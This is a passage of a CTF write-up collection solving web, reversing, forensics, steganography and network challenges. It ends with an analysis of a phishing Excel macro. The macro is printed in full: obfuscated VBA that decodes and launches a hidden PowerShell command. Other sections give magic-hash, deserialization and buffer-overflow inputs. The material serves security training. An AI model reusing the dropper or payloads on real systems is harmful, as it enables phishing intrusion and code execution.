1Y):-`NE<`GFYd(5YPjo`\rPq8ho:>-kOmZFr6B`fo}YhVwA=Mx7k#;^e5ke3ry*\=HbNE?54 ?[W:mxwrheHya'h$3McA20b8Z3%{</IHT/GIh\@ru^AMtEyzO"j0(E.A)Y[v^E:c1 !&8P"Uo?4"hlJ}mjhOd6#dT:^vY%h[Z}(+}Gf"r1)w"O@g4Id
```

You might think it’s not over but look at the 15th line...

Done! We have our flag "`flag{h3x4d3c1m4l_4s_4n_0bfusc4t10n_t00l}`"

## Some type of juggling

**challenge**

Can you solve this challenge?

URL: http://challenges.defsoc.tk:8080

Flag format: flag{string}

**solution**

On the source code we can see a comparison between the md5 of a $_GET parameter and an internal variable is checked.

We could try to put the same value as the internal variable, that is `240610708` but another condition prevents us from doing so.

Looking at the md5 hash of the variable we can see that it looks like that `0e462097431906509019562988736854`. PHP considers this kind of value as a scientific notation and by definition, zero raised to any power is zero.

We need can find another hash that looks like a zero raised to any power so that the condition becomes true. On the internet you can find many "Magic Hashes" including `QNKCDZO`.

Done! We have our flag

## Exclusive access

**Challenge**

We discovered a protected page. Can you bypass it?

URL: http://challenges.defsoc.tk:9999

Flag format: flag{string}

## It is Magic after all

**Challange**

Can you do some magic in this page?

URL: http://challenges.defsoc.tk:3000

Flag format: flag{string}

**Solution**

On the source code we can find a `Magic` class and a condition that checks that a $_GET parameter is a `Magic` and it's key field is true.

We just need to copy past the class and echo the serialization of the class:

```php
<?php
class Magic
{
    public $key;
}

$user = new Magic;
$user->key = True;

echo serialize($user);
?>
```

The output is `O:5:"Magic":1:{s:3:"key";b:1;}` and now we put it inside our $_GET variable.

Done! We have our flag

## You are not allowed

**Challenge**

Can you reverse this program and get us the flag?

Flag format: flag{string}

[program](program)

**Solution**

Personally I like to put programs in IDA even if there is no need.

Looking at the main function of the program we can see that it is only a comparison between two strings.


We enter the sub function to get the s1 variable and we can see that the characters are hard-coded, we transform the decimal bytes into ASCII and we find `Sup3rS3cr3tK3y#`.


We execute the program and enter the string found and it shows us the key.


Done! We have our flag "`flag{1ntr0_t0_r3v3rs3_3ng1n33r1ng}`"

## Well hello there

**Challenge**

We initiated the development of a bot. So far it greets you by your name. Can you test it?

Access: nc challenges.defsoc.tk 22228

Flag format: flag{string}

[program_local](program_local)

**Solution**

As for the program "You are not allowed", I decompile it in IDA


We can see that the program uses gets that writes all the characters that the user enters in a buffer. However this is dangerous because gets will write all the characters even if the buffer is too small causing an overflow moreover the "buffer" `v4` sent in gets is not allocated.

All we need to do is write a large number of characters to have them rewrite the value of `v5`, changing the condition to true.

We launch the netcat command `nc challenges.defsoc.tk 22228`, we write `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`, and that's it the cat command is executed.

Done! We have our flag

## Welcome to Lisbon!

**Challenge**

Oh, some activists defaced a Victoria Secret's store.

Find out which was the model whose photo was damaged.

Flag format: flag{firstname_surname}

[welcome_to_lisbon.jpg](welcome_to_lisbon.jpg)

**Solution**

Just do a reverse search on Google Image to find this photo:


All that remains is to find the name of the model, which is `Adriana Lima`

Done! We have our flag "`flag{adriana_lima}`"

 ## Hiding in plain sight

**Challenge**

I think there is something fishy about this image.

Can you help me out?

Flag format: flag{string}

[hackerman.png](hackerman.png)


**Solution**

Execute a hexdump on the file: `hexdump -C hackerman.png`

```
0032ad00  7d 03 a4 7b 28 ef 2a 5a  cd f3 c8 02 8f 55 50 33  |}..{(.*Z.....UP3|
0032ad10  3e c0 67 00 6a de db 79  13 f8 6a 5d cf f6 99 b5  |>.g.j..y..j]....|
0032ad20  2f 65 bd 84 f5 df 35 a0  46 bc 9c a2 7e 99 a3 4e  |/e....5.F...~..N|
0032ad30  6b ad 0f 9f 43 f9 67 fa  ff 0e 00 81 e9 4d 81 8f  |k...C.g......M..|
0032ad40  e1 30 d2 00 00 00 00 49  45 4e 44 ae 42 60 82 66  |.0.....IEND.B`.f|
0032ad50  6c 61 67 7b 68 31 64 64  33 6e 5f 74 33 78 74 5f  |lag{h1dd3n_t3xt_|
0032ad60  31 6e 5f 70 6c 34 31 6e  73 31 67 68 74 7d        |1n_pl41ns1ght}|
0032ad6e
```

At the very end of the file there is the flag.

Done! We have our flag "`flag{h1dd3n_t3xt_1n_pl41ns1ght}`"

## Welcome to the challenge

**Challenge**

Welcome to the RCTS Challenge!

Can you find the flag?

Flag format: flag{string}

[rcts_challenge.jpg](rcts_challenge.jpg)

**Solution**

Execute a binwalk on the file: `binwalk --dd='.*' rcts_challenge.jpg`

```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
74737         0x123F1         PNG image, 400 x 200, 8-bit/color RGBA, non-interlaced
75273         0x12609         Zlib compressed data, best compression
```

binwalk will extract for us hidden files inside our jpeg image if there are any and actually a png was well hidden inside!



Done! We have our flag "`flag{0n3_1m4g3_1s_n0t_3n0ugh}`"

## About us

**Challenge**

This challenge is about the RCTS CERT at FCCN.

Can you get the flag?

Flag format: flag{string}

[RCTSCERT-FCCN.pdf](RCTSCERT-FCCN.pdf)

**Solution**

Just Execute the strings command on the file and grep only the lines containing "flag": `strings RCTSCERT-FCCN.pdf | grep flag`

```
  <pdfx:Flag>flag{4b0ut_us_4t_rcts_c3rt}</pdfx:Flag>
```

Done! We have our flag "`flag{4b0ut_us_4t_rcts_c3rt}`"

## Keyp it universal

**Challenge**

We intercepted a strange communication which we believe has important information inside.

Can you retrieve the information from it?

Flag format: flag{string}

Regex: flag{[0-9a-z_]+}

[capture.pcap](capture.pcap)

**Solution**

If we open the capture in Wireshark we can notice that it is a USB communication.

The first packets tell us that the source is a keyboard, so we go in front of a keylogger.

We apply a filter to display only the packets sent by the keyboard `usb.dst == "host"` and we are therefore only interested in the interrupts that contain the data `USB_INTERRUPT in`

The data that interests us is sent once on two packets and in the part "HID Data".

The data we receive will be presented in this way `00/20 00 xx 00 00 00 00 00 00`. xx corresponding to the key pressed on the keyboard.

On page 53 of the [Universal Serial Bus HID Usage Tables](https://www.usb.org/sites/default/files/documents/hut1_12v2.pdf), we have the one that interests us: the keyboard, we only have to convert the data into ASCI characters.

Done! We have our flag "`flag{usb_p4ck3t_c4ptur3_1s_fun}`"

## Maybe the helper can help

**Challenge**

You might not see it, but a flag lies within.

Flag Format: flag{string}

[the-jetsons-family.jpg](the-jetsons-family.jpg)

**Solution**

I didn’t find it at the CTF but I finally found it while I was writing the other writeups.

Just execute stegseek with the well-known "rockyou.txt": `stegseek the-jetsons-family.jpg rockyou.txt`

```
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "rosey")
[i] Original filename: "steganopayload986089.txt".
[i] Extracting to "the-jetsons-family.jpg.out".
```

The file "the-jetsons-family.jpg.out" contains the following:
```
Wm14aFozdFVhRVZtVlhSVmNrVnBVMjVQZHlGOQ==
```

Content that once decoded twice from base64 gives us the flag!

Done! We have our flag "`flag{ThEfUtUrEiSnOw!}`"

## Where did agent rooot login from

**Challenge**

He's a secret agent. He doesn't need the protocol to be running on the asian-located box in order to use it.

Flag format: flag{ip address}

## Knock Knock

**Challenge**

We recently found a private SSH key that will allow us to login in the attached machine.

However, we can't seem to be able to login through SSH.

Can you help us out?

No brute force is required.

Flag format: flag{string}

[knock_knock.ova](knock_knock.ova) [id_rsa](id_rsa)

**Solution**

Start by installing the .ova file in a virtual machine, I personally use VMWare.

You can then run the command `nmap -A [IP]` to see open ports.



We can see that the only open port is the ftp port. So we connect to it to find ourselves with this pretty banner:

```
 ██████╗ █████╗ ███╗   ██╗    ██╗   ██╗ ██████╗ ██╗   ██╗    ██╗  ██╗███╗   ██╗ ██████╗  ██████╗██╗  ██╗
██╔════╝██╔══██╗████╗  ██║    ╚██╗ ██╔╝██╔═══██╗██║   ██║    ██║ ██╔╝████╗  ██║██╔═══██╗██╔════╝██║ ██╔╝
██║     ███████║██╔██╗ ██║     ╚████╔╝ ██║   ██║██║   ██║    █████╔╝ ██╔██╗ ██║██║   ██║██║     █████╔╝
██║     ██╔══██║██║╚██╗██║      ╚██╔╝  ██║   ██║██║   ██║    ██╔═██╗ ██║╚██╗██║██║   ██║██║     ██╔═██╗
╚██████╗██║  ██║██║ ╚████║       ██║   ╚██████╔╝╚██████╔╝    ██║  ██╗██║ ╚████║╚██████╔╝╚██████╗██║  ██╗
 ╚═════╝╚═╝  ╚═╝╚═╝  ╚═══╝       ╚═╝    ╚═════╝  ╚═════╝     ╚═╝  ╚═╝╚═╝  ╚═══╝ ╚═════╝  ╚═════╝╚═╝  ╚═╝

 ██████╗ ███╗   ██╗    ████████╗██╗  ██╗███████╗
██╔═══██╗████╗  ██║    ╚══██╔══╝██║  ██║██╔════╝
██║   ██║██╔██╗ ██║       ██║   ███████║█████╗
██║   ██║██║╚██╗██║       ██║   ██╔══██║██╔══╝
╚██████╔╝██║ ╚████║       ██║   ██║  ██║███████╗
 ╚═════╝ ╚═╝  ╚═══╝       ╚═╝   ╚═╝  ╚═╝╚══════╝

██████╗ ██╗ ██████╗ ██╗  ██╗████████╗    ██████╗  ██████╗  ██████╗ ██████╗ ███████╗██████╗
██╔══██╗██║██╔════╝ ██║  ██║╚══██╔══╝    ██╔══██╗██╔═══██╗██╔═══██╗██╔══██╗██╔════╝╚════██╗
██████╔╝██║██║  ███╗███████║   ██║       ██║  ██║██║   ██║██║   ██║██████╔╝███████╗  ▄███╔╝
██╔══██╗██║██║   ██║██╔══██║   ██║       ██║  ██║██║   ██║██║   ██║██╔══██╗╚════██║  ▀▀══╝
██║  ██║██║╚██████╔╝██║  ██║   ██║       ██████╔╝╚██████╔╝╚██████╔╝██║  ██║███████║  ██╗
╚═╝  ╚═╝╚═╝ ╚═════╝ ╚═╝  ╚═╝   ╚═╝       ╚═════╝  ╚═════╝  ╚═════╝ ╚═╝  ╚═╝╚══════╝  ╚═╝

███████╗ ██████╗  ██████╗  ██████╗         █████╗  ██████╗  ██████╗  ██████╗         █████╗  ██████╗  ██████╗  ██████╗
╚════██║██╔═████╗██╔═████╗██╔═████╗       ██╔══██╗██╔═████╗██╔═████╗██╔═████╗       ██╔══██╗██╔═████╗██╔═████╗██╔═████╗
    ██╔╝██║██╔██║██║██╔██║██║██╔██║       ╚█████╔╝██║██╔██║██║██╔██║██║██╔██║       ╚██████║██║██╔██║██║██╔██║██║██╔██║
   ██╔╝ ████╔╝██║████╔╝██║████╔╝██║       ██╔══██╗████╔╝██║████╔╝██║████╔╝██║        ╚═══██║████╔╝██║████╔╝██║████╔╝██║
   ██║  ╚██████╔╝╚██████╔╝╚██████╔╝▄█╗    ╚█████╔╝╚██████╔╝╚██████╔╝╚██████╔╝▄█╗     █████╔╝╚██████╔╝╚██████╔╝╚██████╔╝
   ╚═╝   ╚═════╝  ╚═════╝  ╚═════╝ ╚═╝     ╚════╝  ╚═════╝  ╚═════╝  ╚═════╝ ╚═╝     ╚════╝  ╚═════╝  ╚═════╝  ╚═════╝
```

Which tells us that we should perhaps try nmap on these three ports: `nmap -p 7/8/9000 [IP]`

Let's do another `nmap -A [IP]` to see if ssh port (22) is now open... Yes it is!

The id_rsa key tells us that the user is `ctf` so we can connect using `ssh -i id_sra ctf@[IP]` and... We're in!

Let's cat the `flag.txt` file and we have our key!

Done! We have our flag "`flag{kn0ck1ng_0n_d00rs_1s_p0l1t3}`"

## The lost Jetson

**Challenge**

You can find his parents at 194.210.128.231 (a.jetsons.tk) and 194.210.128.232 (b.jetsons.tk).

*** PLEASE DO NOT PORTSCAN THESE TWO ADDRESSES *** Port 22 is open on both of them. Username is the same for both servers.

*** For this challenge you DON'T need to portscan anything on 194.210.128.x ***

Find out the address and port where the kid can be found!

Flag format: flag{[address]:port}

(You don't need root access in any of the boxes!)

**Solution**

First to find the common username I tried to be logical, what do both parents have in common? the surname: jetson.

We connect with ssh on one or the other with `ssh jetson@194.210.128.231/2`.
We end up with two banners, one to say that the password is the name of the wife `Jane` and the other of the husband `George`.

Since I had to find an IP, I looked at the current connections with the command `netstat -nputw`.
The flag is asking for an IPv6 address I looked at those connected and there was one!

Connect with ssh on it `ssh -p 2200 2001:db8:a:1:5054:ff:fecb:1279`, success! It's asking for a password, let's try `elroy` and here we go.

When I entered the address in the flag it was wrong, I did not have the correct IP, after some commands I found: `fe80::5054:ff:fecb:1279`

Done! We have our flag "`flag{[fe80::5054:ff:fecb:1279]:2200}`"

## Vacation time!

**Challenge**

After being reunited, the Jetsons will travel to Europe[.jetsons.tk]

Find exactly where. Europe is ancient. Look for ancient protocols.

Caution: The Flag Throws (some) Phire.

Flag format: flag{string}

**Solution**

First if we look at the warning in the description we can see that each word has a capital letter: `tftp`

We have our old protocol! We connect with `tftp europe.jetsons.tk`.

And from there I didn’t really know what to do so I tried to get the name of all the European countries without success.

So I ended up trying to get the flag directly: `get flag.txt`

And it worked... Here are its contents:
```
(_ _)
 | |____....----....____         _ 
 | |\                . .~~~~---~~ |
 | | |         __\\ /(/(  .       |
 | | |      <--= '|/_/_( /|       |
 | | |       }\~) | / _(./      ..|
 | | |..::::::\\/      --...::::::|
 | | |:::::::::\//::\\__\:::::::::|
 | | |::::::::_//_:_//__\\_:::::::|
 | | |::::::::::::::::::::::::::::|
 | |/:::''''~~~~''''::::::::::::''~
 | |                    ~~~~~

[666c61677b5377616e736561497357616c65734361706974616c7d]
```

The text below is a string of ASCII characters in hexadecimal by converting it we get the flag.

Done! We have our flag "`flag{SwanseaIsWalesCapital}`"

## Oh there's another flag

**Challenge**

When you find the futuristic boy he will have a hint about a 2nd flag.

Flag format: flag{string}

**Solution**

We need to go back to Elroy’s ssh found in [The lost Jetson](#the-lost-jetson). 

In his banner he tells us that he misses his dog but with a dollar `$dog`.

So I just tried to write dog in the terminal and a text was echo:
```
Your flag is Elroy's dog plus the year when Jetsons were created. Lowercase.
```

The Jetsons were created in 1962 and the dog is called Astro.

Done! We have our flag "`flag{astro1962}`"

## Judy also has a flag

**Challenge**

...hidden in her room^H^H^H^H own DNS zone.

Flag format: flag{string}

## Where in the world is

**Challenge**

...the missing Jetson kid?

He will tell you as soon as you find him.

Flag format: flag{string}

## Decrypting the payload

**Challenge**

We need to know how the attacker gained access to our network.

The team discovered that some of our employees where targeted by a phishing attempt and got this excel file from their emails.

Can you check if this was used to gain a foothold in our network?

Flag format: flag{string}

[Account_report.xlsm](Account_report.xlsm)

**Solution**

The Excel file contains a macro with a big VBA code:

```vb
Rem Attribute VBA_ModuleType=VBAModule
Sub Auto_Open()
Dim aeythrpom As String
Dim vultiormen As String
Dim moabehina As String
Dim hujilkomna As String
Dim tuabnimne As String
Dim wuotamw As String
Dim sjeldmajek As String
Dim afsyedlmen As String
Dim eujrtabem As String
aeythrpom = ytahenomter("706f7765727368656c6c2e657865202d6578656320627970617373202d6e6f65786974202d772068696464656e202d656e6320204a41423041434141505141674143634157774245414777416241424a4147304163414276414849416441416f414677414967423141484d") & _
ytahenomter("415a51427941444d414d674175414751416241427341467741496741704146304149414277414855415967427341476b415977416741484d") & _
ytahenomter("4164414268414851416151426a414341415a514234414851415a51427941473441494142694147384162774273414341415577426f414738416477425841476b416267426b414738416477416f41476b41626742304143414161414268414734415a414273414755414c41416741476b41626742304143414163774230414745416441426c41436b41") & _
ytahenomter("4f77416e414473414451414b414745415a41426b4143304164414235414841415a5141674143304162674268414730415a5141674148634161514275414341414c5142744147554162514269414755416367416741435141644141674143304162674268414730415a51427a414841415951426a41475541494142754147454164414270414859415a51413741467341626742684148514161514232414755414c67423341476b416267426441446f414f674254414767416277423341466341615142754147514162774233414367414b41426241464d") & _
ytahenomter("416551427a414851415a5142744143344152414270414745415a774275414738416377423041476b415977427a4143344155414279414738415977426c41484d")
vultiormen = ytahenomter("416377426441446f414f674248414755416441424441485541636742794147554162674230414641416367427641474d") & ytahenomter("415a51427a41484d414b4141704143414166414167414563415a5142304143304155414279414738415977426c41484d") & _
ytahenomter("4163774170414334415451426841476b416267425841476b416267426b4147384164774249414745416267426b414777415a514173414341414d") & _
ytahenomter("414170414473414451414b41476b415a514234414341414b41416741467341557742304148494161514275414563415851413641446f416167427641476b416267416f414363414a774173414341414b4142624148494152514248414755415741426441446f414f67424e414745415641426a414767415a514254414367414941416941436b414941416e414867414a774172414630414d") & _
ytahenomter("774178414673415241424a414777415441426c414567416377416b41437341585141784146734152414270414577415441426c414767416377416b414341414b41416d4148774149414170414451414d") & ytahenomter("774178414673415241424a414777415441426c414567416377416b41437341585141784146734152414270414577415441426c414767416377416b414341414b41416d4148774149414170414451414d")
moabehina = ytahenomter("774264414649415151426f41474d4157774264414563416267424a414649415641427a414673414c41416e4148514157414271414363414b41426c41474d415151424d") & ytahenomter("4146414152514253414334414b51416e414351414a774173414363416477427841476b414a77416f41475541517742424145774155414246414649414c674170414363414f774230414667414a774172414363416167427a41474d") & _
ytahenomter("414d41426b414638415a41417a4147774159674130414734414d") & _
ytahenomter("774266414441416367426a414451416251416e414373414a774237414763414a774172414363415951416e414373414a774273414759416441425941476f414941416e414373414a774139414445415877426e414745414a774172414363416241426d4148634163514270414363414b414169414377414a774175414363414c414167414363415567416e414373414a77427041456341534142554148514154774273414363414b77416e414755415a674230414363414941417041434141664141674147594162774279414555415151426a414567414c514276414549415367426c41474d") & _
ytahenomter("4156414167414873414a41426641433441566742424145774156514246414830414941417041436b4149414170414473414451414b41464d") & _
ytahenomter("4152514230414341414b414169414563414f414169414373414967426f414349414b5141674143674149414169414341414b51416741436b414e67417a41463041556742684147674159774262414377414a774279414745415767416e4145554159774268414777415541426c414649414c514167414451414d")
hujilkomna = ytahenomter("774264414649415951426f41474d415777417341436b414d") & ytahenomter("41413141463041556742684147674159774262414373414f41413341463041556742684147674159774262414373414f5141304146304155674268414767415977426241436741494141674147554151774242414777416341424641464941597741744143414149414170414363414f774179414363414b77416e414534414a774172414363414d") & _
ytahenomter("51416e414373414a77423941484d4164514177414849414d77426e414363414b77416e414734414e41426b414638414d774279414451414a7741724143634158774179414534414d") & _
ytahenomter("5141674144304149414179414638415a774268414363414b77416e414777415a674279414363414b77416e414745415767416e414367414b4141674143674149414170414363414a77427541476b4154774271414330414a774234414363414b77426441444d")
tuabnimne = ytahenomter("414c414178414673414b51416f414563415467427041484941564142544147384164414175414555415977424f414755416367426c414559415a514253414841415251427a4145384151674253414555416467416b414341414b41416741433441494141694143414149414170414341414f77417441476f415477424a414734414941416f4143414162414254414341414b4141694146594151514253414349414b77416941456b4159514243414349414b77416941457741525141364147634149674172414349414f414249414349414b514167414341414b514175414659415151424d") & _
ytahenomter("414855415a514262414341414c514167414445414c674175414341414c514167414367414941416f4143414162414254414341414b4141694146594151514253414349414b77416941456b4159514243414349414b77416941457741525141364147634149674172414349414f414249414349414b514167414341414b514175414659415151424d") & _
ytahenomter("414855415a514175414577415a514275414763416441424941436b4158514167414877414941424a414755415741414e41416f414a4142774147454165514273414738415951426b414341415051416741434941536742424145494161674242414563416477424241474541555142434147774151514248414451415151426b414545415151426e414545415241417741454541535142424145494154774242414563415651424241475141647742424148514151514246414467415151425a414763415167427841454541527742564145454157514233414549414d") & _
ytahenomter("41424241454d415151424241465541647742434144554151514249414530415151426b41454541516742734145454152774177414545415441426e414549415477424241456341565142424147514151514242414855415151424741453041515142694148634151674271414545415277427a4145454157674252414549414d") & _
ytahenomter("4142424145674154514242414577415a774243414655415151424641453041515142564145454151674245414545415277423341454541595142524145494162414242414563414e4142424147514151514242414738415151424441456b415151424e4146454151514131414545415241424a414545415441426e414545416477424241454d")
wuotamw = ytahenomter("414e414242414530415a7742424148554151514245414555415151424e4148634151514235414545415177424a4145454154414242414545414d") & ytahenomter("41424241455141555142424145304164774242414841415151424541484d") & _
ytahenomter("415151424b41454541516742364145454153414252414545415977426e4145494162414242414563415251424241474941555142424147634151514245414441415151424a4145454151514272414545415277424e414545415967424241454941634142424145634156514242414749415a77424341444141515142444144514151514253414863415167427341454541534142524145454156514233414549414d") & _
ytahenomter("414242414567415351424241466f41555142434147674151514248414441415151424c4145454151514277414545415241427a4145454156774233414549416151424241456741617742424147514151514243414777415151424741484d") & _
ytahenomter("4151514259414645415167426b4145454151774252414545415751426e414549414e514242414567415551424241466f415551424341486f41515142444145454151514251414645415151426e4145454152414242414545415441426e4145454164514242414551415751424241453441555142424144454151514245414530415151424f41464541516741344145454151774256414545415a5142334145454164774242414567414d") & ytahenomter("414242414538416477424341444d")
sjeldmajek = ytahenomter("41515142484147634151514268414645415167427a41454541527742564145454153774242414545416277424241454d") & _
ytahenomter("415551424241474541555142424147634151514245414441415151424a4145454151514272414545415341424e414545415a4142424145494165514242414563415651424241466b415551424341485141515142444144514151514256414763415167427341454541527742464145454157674242414545416277424241454d") & _
ytahenomter("415551424241466b415a77424341445541515142494146454151514261414645415167423641454541517742334145454153514242414545416477424241454d") & _
ytahenomter("416477424241456b4151514242414773415151424841456b415151426c4146454151674177414545415277425641454541597742334145454164514242414555416477424241466f4155514243414855415151424841474d") & ytahenomter("415151426b414545415167427641454541517742724145454153774252414545415a77424241454d414d") & _
ytahenomter("414242414749415a7742434147774151514244414545415151424e4145454151514277414545415341427a41454541547742334145454161774242414563415551424241466b41555142434144414151514248414555415151424a4145454151514135414545415177424241454541537742424145494154774242414563415651424241475141647742424148514151514246414467415151425a414763415167427841454541527742564145454157514233414549414d")
afsyedlmen = ytahenomter("41424241454d415151424241457741555142434146554151514249414773415151426a4145454151674273414545415251413041454541575142524145494164414242414563415651424241456b41515142434146514151514249414773415151426a4148634151674177414545415277425641454541596742524145454164514242414559415551424241466f41555142434144514151514249414645415151424d") & ytahenomter("4147634151674243414545415267424e41454541555142334145494153674242414555416177424241464941555142434148554151514248414530415151426941486341516742724145454152774272414545415967426e414549416267424241454d") & _
ytahenomter("4161774242414577415a7742434145674151514248414655415151426b41454541516742554145454153414252414545415977426e4145494163414242414563414e41424241466f41647742424147384151514244414645415151425a414763415167413141454541534142524145454157674252414549416567424241454d") & _
ytahenomter("4164774242414530415151424241484d4151514244414545415151424b4145454151674277414545415177427241454541547742334145454161774242414567415451424241466f41555142434148554151514248414645415151425a414763415167426f414545415277424e4145454159514233414545415a774242414551414d") & _
ytahenomter("41424241456b4151514242414738415151424841477341515142614146454151674130414545415177424241454541536742424145494161774242414563415251424241475141515142434147674151514244414545415151424e4147634151514172414545415177425a4145454154514252414545415a774242414567416477424241456b41515142434146414151514249414655415151426b4145454151514230414545415267424e414545415a41424241454941655142424145634161774242414749415a7742434147344151514244414545415151424c4146454151514133414545415177425241454541597742334145494162414242414563414e41424241466f415151424341476b4151514248414555415151425a4148634151674279414545415241424a4145454153514242414545415a774242414551414d") & _
ytahenomter("41424241456b41515142424147734151514249414530415151426141464541516742314145454152774252414545415751426e414549416141424241456341545142424147454164774242414763415151424441484d") & _
ytahenomter("415151424a414545415151427041454541526742424145454156514233414545415a77424241454d415351424241456b41515142424148494151514244414545415151424c4145454151674233414545415341426a4145454157674242414545416341424241454d") & _
ytahenomter("414e414242414655415151424341476741515142494146454151514268414545415151426e414545415177427a41454541535142424145454161514242414551414e41424241456b415151424241476b415151424541484d") & _
ytahenomter("415151424b41454541516742364145454152774256414545415967426e4145494161774242414563415351424241475541555142434144414151514248414655415151424a4145454151514135414545415177424241454541537742424145494159674242414567415551424241466f41555142434144514151514249414645415151424d")
eujrtabem = ytahenomter("414763415167427341454541527741304145454157514233414549416467424241456341555142424147454155514243414855415151424841474d") & ytahenomter("41515142594146454151514132414545415241427641454541555142524145494156414242414555415451424241464d") & _
ytahenomter("415551424341456f4151514244414773415151424d") & _
ytahenomter("41476341516742494145454152774256414545415a4142424145494151774242414567416177424241475141515142434147774151514249414530415151424c4145454151514272414545415341424e41454541576742524145494164514242414563415551424241466b415a7742434147674151514248414530415151426841486341515142354145454151774272414545415477423341454541617742424145674154514242414751415151424341486b4151514248414655415151425a4146454151674230414545415177413041454541566742334145494165514242414563416177424241475141515142434147774151514244414763415151424b41454541516742364145454152774256414545415967426e4145494161774242414563415351424241475541555142434144414151514248414655415151424d") & _
ytahenomter("41454541515142334145454151774233414545415367424241454941656742424145634156514242414749415a774243414773415151424841456b415151426c41464541516741774145454152774256414545415441426e41454941545142424145634156514242414749415a774243414734415151424941464541515142684145454151514277414545415241427a41454541536742424145494165674242414567415551424241474d") & _
ytahenomter("415a774243414777415151424841455541515142694146454151514231414545415251425a4145454159674242414549414d") & ytahenomter("514242414567415451424241474541515142424147384151514244414773415151426d4146454151514133414545415177425241454541575142334145494163774242414563416177424241466f41555142434148554151514249414645415151424d") & _
ytahenomter("414763415167424541454541527742334145454159674233414549416567424241456341565142424145734151514242414841415151424541484d") & ytahenomter("4151514169414130414367416b41474d") & _
ytahenomter("4149414139414341415777425441486b41637742304147554162514175414651415a514234414851414c67424641473441597742764147514161514275414763415851413641446f415651427541476b4159774276414751415a514175414563415a51423041464d") & ytahenomter("416441427941476b416267426e414367415777425441486b4163774230414755416251417541454d") & _
ytahenomter("4162774275414859415a514279414851415851413641446f41526742794147384162514243414745416377426c414459414e4142544148514163674270414734415a77416f414351416341426841486b4162414276414745415a41417041436b414451414b41476b415a674167414367414a4142774147454165514273414738415951426b414341414c514274414745416441426a41476741494141694147674164414230414841414f67423841476741644142304148414163774136414349414b514167414873414451414b4143414149414167414341414a4142774147454165514273414738415951426b4143414150514167414367415467426c414863414c514250414749416167426c41474d") & _
ytahenomter("4164414167414349415467426c414851414c674258414755415967426a414777416151426c414734416441416941436b414c6742454147384164774275414777416277426841475141557742304148494161514275414763414b41416b41484141595142354147774162774268414751414b514137414130414367423941413041436742704147554165414167414351415977413741413d3d")
x = Shell(aeythrpom & vultiormen & moabehina & hujilkomna & tuabnimne & wuotamw & sjeldmajek & afsyedlmen & eujrtabem)
End Sub
Private Function ytahenomter(ByVal ncjdmileoa As String) As String
Dim bycamliooa As Long
For bycamliooa = 1 To Len(ncjdmileoa) Step 2
ytahenomter = ytahenomter & Chr$(Val("&H" & Mid$(ncjdmileoa, bycamliooa, 2)))
Next bycamliooa
End Function
```

Let’s modify the line: 
```ps
x = Shell(aeythrpom & vultiormen & moabehina & hujilkomna & tuabnimne & wuotamw & sjeldmajek & afsyedlmen & eujrtabem)
```
with:
```ps
Console.WriteLine(aeythrpom & vultiormen & moabehina & hujilkomna & tuabnimne & wuotamw & sjeldmajek & afsyedlmen & eujrtabem)
```

We find ourselves again with a big block but this time it is a Powershell command in base64:
```ps
powershell.exe -exec bypass -noexit -w hidden -enc  JAB0ACAAPQAgACcAWwBEAGwAbABJAG0AcABvAHIAdAAoAFwAIgB1AHMAZQByADMAMgAuAGQAbABsAFwAIgApAF0AIABwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABiAG8AbwBsACAAUwBoAG8AdwBXAGkAbgBkAG8AdwAoAGkAbgB0ACAAaABhAG4AZABsAGUALAAgAGkAbgB0ACAAcwB0AGEAdABlACkAOwAnADsADQAKAGEAZABkAC0AdAB5AHAAZQAgAC0AbgBhAG0AZQAgAHcAaQBuACAALQBtAGUAbQBiAGUAcgAgACQAdAAgAC0AbgBhAG0AZQBzAHAAYQBjAGUAIABuAGEAdABpAHYAZQA7AFsAbgBhAHQAaQB2AGUALgB3AGkAbgBdADoAOgBTAGgAbwB3AFcAaQBuAGQAbwB3ACgAKABbAFMAeQBzAHQAZQBtAC4ARABpAGEAZwBuAG8AcwB0AGkAYwBzAC4AUAByAG8AYwBlAHMAcwBdADoAOgBHAGUAdABDAHUAcgByAGUAbgB0AFAAcgBvAGMAZQBzAHMAKAApACAAfAAgAEcAZQB0AC0AUAByAG8AYwBlAHMAcwApAC4ATQBhAGkAbgBXAGkAbgBkAG8AdwBIAGEAbgBkAGwAZQAsACAAMAApADsADQAKAGkAZQB4ACAAKAAgAFsAUwB0AHIAaQBuAEcAXQA6ADoAagBvAGkAbgAoACcAJwAsACAAKABbAHIARQBHAGUAWABdADoAOgBNAGEAVABjAGgAZQBTACgAIAAiACkAIAAnAHgAJwArAF0AMwAxAFsARABJAGwATABlAEgAcwAkACsAXQAxAFsARABpAEwATABlAGgAcwAkACAAKAAmAHwAIAApADQAMwAxAFsARABJAGwATABlAEgAcwAkACsAXQAxAFsARABpAEwATABlAGgAcwAkACAAKAAmAHwAIAApADQAMwBdAFIAQQBoAGMAWwBdAEcAbgBJAFIAVABzAFsALAAnAHQAWABqACcAKABlAGMAQQBMAFAARQBSAC4AKQAnACQAJwAsACcAdwBxAGkAJwAoAGUAQwBBAEwAUABFAFIALgApACcAOwB0AFgAJwArACcAagBzAGMAMABkAF8AZAAzAGwAYgA0AG4AMwBfADAAcgBjADQAbQAnACsAJwB7AGcAJwArACcAYQAnACsAJwBsAGYAdABYAGoAIAAnACsAJwA9ADEAXwBnAGEAJwArACcAbABmAHcAcQBpACcAKAAiACwAJwAuACcALAAgACcAUgAnACsAJwBpAEcASABUAHQATwBsACcAKwAnAGUAZgB0ACcAIAApACAAfAAgAGYAbwByAEUAQQBjAEgALQBvAEIASgBlAGMAVAAgAHsAJABfAC4AVgBBAEwAVQBFAH0AIAApACkAIAApADsADQAKAFMARQB0ACAAKAAiAEcAOAAiACsAIgBoACIAKQAgACgAIAAiACAAKQAgACkANgAzAF0AUgBhAGgAYwBbACwAJwByAGEAWgAnAEUAYwBhAGwAUABlAFIALQAgADQAMwBdAFIAYQBoAGMAWwAsACkAMAA1AF0AUgBhAGgAYwBbACsAOAA3AF0AUgBhAGgAYwBbACsAOQA0AF0AUgBhAGgAYwBbACgAIAAgAGUAQwBBAGwAcABFAFIAYwAtACAAIAApACcAOwAyACcAKwAnAE4AJwArACcAMQAnACsAJwB9AHMAdQAwAHIAMwBnACcAKwAnAG4ANABkAF8A